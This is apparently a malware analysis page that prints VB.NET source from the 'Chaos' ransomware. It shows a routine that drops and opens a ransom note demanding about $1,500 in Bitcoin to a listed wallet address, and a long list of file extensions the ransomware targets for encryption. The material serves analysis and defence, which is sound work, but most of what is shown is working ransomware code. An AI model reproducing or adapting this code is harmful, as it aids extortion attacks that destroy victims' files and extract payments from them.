 ### addAndOpenNote (Ransomware Note)

```vbnet
Private Shared droppedMessageTextbox As String = "read_it.txt"

Private Shared messages As String() = New String() { "----> Chaos is multi language ransomware. Translate your note to any language <----", "All of your files have been encrypted", "Your computer was infected with a ransomware virus. Your files have been encrypted and you won't ", "be able to decrypt them without our help.What can I do to get my files back?You can buy our special ", "decryption software, this software will allow you to recover all of your data and remove the", "ransomware from your computer.The price for the software is $1,500. Payment can be made in Bitcoin only.", "How do I pay, where do I get Bitcoin?", "Purchasing Bitcoin varies from country to country, you are best advised to do a quick google search", "yourself  to find out how to buy Bitcoin. ", "Many of our customers have reported these sites to be fast and reliable:", "Coinmama - hxxps://www.coinmama.com Bitpanda - hxxps://www.bitpanda.com", "", "Payment informationAmount: 0.1473766 BTC", "Bitcoin Address:  bc1qlnzcep4l4ac0ttdrq7awxev9ehu465f2vpt9x0", "" }

Private Shared Sub addAndOpenNote()
	Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\" + Program.droppedMessageTextbox
	Try
		File.WriteAllLines(text, Program.messages)
		Thread.Sleep(500)
		Process.Start(text)
	Catch
	End Try
End Sub
```

This code creates a "read_it.txt" file with a ransom message and then opens it. The message states that the user's files are encrypted and demands a Bitcoin payment to decrypt them.

### validExtensions

```vbnet
Private Shared validExtensions As String() = New String() {
    ".txt", ".jar", ".dat", ".contact", ".settings", ".doc", ".docx", ".xls",
    ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".mka", ".mhtml", ".oqy",
    ".png", ".csv", ".py", ".sql", ".mdb", ".php", ".asp", ".aspx", ".html",
    ".htm", ".xml", ".psd", ".pdf", ".xla", ".cub", ".dae", ".indd",
    ".cs", ".mp3", ".mp4", ".dwg", ".zip", ".rar", ".mov", ".rtf", ".bmp",
    ".mkv", ".avi", ".apk", ".lnk", ".dib", ".dic", ".dif", ".divx", ".iso",
    ".7zip", ".ace", ".arj", ".bz2", ".cab", ".gzip", ".lzh", ".tar", ".jpeg",
    ".xz", ".mpeg", ".torrent", ".mpg", ".core", ".pdb", ".ico", ".pas", ".db",
    ".wmv", ".swf", ".cer", ".bak", ".backup", ".accdb", ".bay", ".p7c", ".exif",
    ".vss", ".raw", ".m4a", ".wma", ".flv", ".sie", ".sum", ".ibank", ".wallet",
    ".css", ".js", ".rb", ".crt", ".xlsm", ".xlsb", ".7z", ".cpp", ".java",
    ".jpe", ".ini", ".blob", ".wps", ".docm", ".wav", ".3gp", ".webm", ".m4v",
    ".amv", ".m4p", ".svg", ".ods", ".bk", ".vdi", ".vmdk", ".onepkg", ".accde",
    ".jsp", ".json", ".gif", ".log", ".gz", ".config", ".vb", ".m1v", ".sln",
    ".pst", ".obj", ".xlam", ".djvu", ".inc", ".cvs", ".dbf", ".tbi", ".wpd",
    ".dot", ".dotx", ".xltx", ".pptm", ".potx", ".potm", ".pot", ".xlw", ".xps",
    ".xsd", ".xsf", ".xsl", ".kmz", ".accdr", ".stm", ".accdt", ".ppam", ".pps",
    ".ppsm", ".1cd", ".3ds", ".3fr", ".3g2", ".accda", ".accdc", ".accdw", ".adp",
    ".ai", ".ai3", ".ai4", ".ai5", ".ai6", ".ai7", ".ai8", ".arw", ".ascx",
    ".asm", ".asmx", ".avs", ".bin", ".cfm", ".dbx", ".dcm", ".dcr", ".pict",
    ".rgbe", ".dwt", ".f4v", ".exr", ".kwm", ".max", ".mda", ".mde", ".mdf",
    ".mdw", ".mht", ".mpv", ".msg", ".myi", ".nef", ".odc", ".geo", ".swift",
    ".odm", ".odp", ".oft", ".orf", ".pfx", ".p12", ".pl", ".pls", ".safe",
    ".tab", ".vbs", ".xlk", ".xlm", ".xlt", ".xltm", ".svgz", ".slk", ".tar.gz",
    ".dmg", ".ps", ".psb", ".tif", ".rss", ".key", ".vob", ".epsp", ".dc3",
    ".iff", ".onepkg", ".onetoc2", ".opt", ".p7b", ".pam", ".r3d"
}
```
